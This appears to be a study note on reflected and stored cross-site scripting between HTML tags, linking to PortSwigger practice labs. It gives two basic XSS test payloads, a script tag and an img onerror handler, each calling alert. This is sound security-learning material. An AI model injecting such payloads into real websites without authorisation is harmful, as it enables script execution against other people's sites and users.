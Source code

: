 Parent Links : [[Cross-site scripting]] > [[How to find and test for XSS vulnerabilities]] > [[Cross-site scripting contexts]]     

## XSS between HTML tags
  
When the XSS context is text between HTML tags, you need to introduce some new HTML tags designed to trigger execution of JavaScript.  
  
Some useful ways of executing JavaScript are:  
  
```js 
<script>alert(document.domain)</script>  
<img src=1 onerror=alert(1)>  
```


>- LAB [Reflected XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded)  
>- LAB [Stored XSS into HTML context with nothing encoded](https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded)  
>- LAB [Reflected XSS into HTML context with most tags and attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked)  
>- LAB [Reflected XSS into HTML context with all tags blocked except custom ones](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked)  
>- LAB [Reflected XSS with event handlers and](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked) [href](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked) [attributes blocked](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked)  
>- LAB [Reflected XSS with some SVG markup allowed](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed)